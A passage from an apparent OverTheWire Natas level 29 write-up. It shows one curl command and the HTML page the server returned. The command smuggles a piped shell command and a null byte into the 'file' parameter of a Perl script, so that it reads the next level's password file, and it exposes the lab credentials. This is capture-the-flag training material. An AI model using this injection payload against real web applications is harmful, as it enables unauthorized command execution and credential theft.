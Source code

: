 
```
┌──(kali㉿kali)-[~]
└─$ curl "http://natas29.natas.labs.overthewire.org/index.pl?file=|cat%20/etc/natas_webpass/natas30%00" --user natas29:31F4j3Qi2PnuhIZQokxXk1L3QT9Cppns
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas29", "pass": "31F4j3Qi2PnuhIZQokxXk1L3QT9Cppns" };</script></head>
<body oncontextmenu="javascript:alert('right clicking has been blocked!');return false;">

<style>

#content {
    width: 1000px;
}
pre{
    background-color: #000000; 
    color: #00FF00; 
} 

</style>

<h1>natas29</h1>
<div id="content">
H3y K1dZ,<br>
y0 rEm3mB3rz p3Rl rit3?<br>
\/\/4Nn4 g0 olD5kewL? R3aD Up!<br><br>

<form action="index.pl" method="GET">
<select name="file" onchange="this.form.submit()">
  <option value="">s3lEcT suMp1n!</option>
  <option value="perl underground">perl underground</option>
  <option value="perl underground 2">perl underground 2</option>
  <option value="perl underground 3">perl underground 3</option>
  <option value="perl underground 4">perl underground 4</option>
  <option value="perl underground 5">perl underground 5</option>
</select>
</form>

meeeeeep!<br><div id="viewsource">c4n Y0 h4z s4uc3?</div>
</div>
</body>
</html>
```
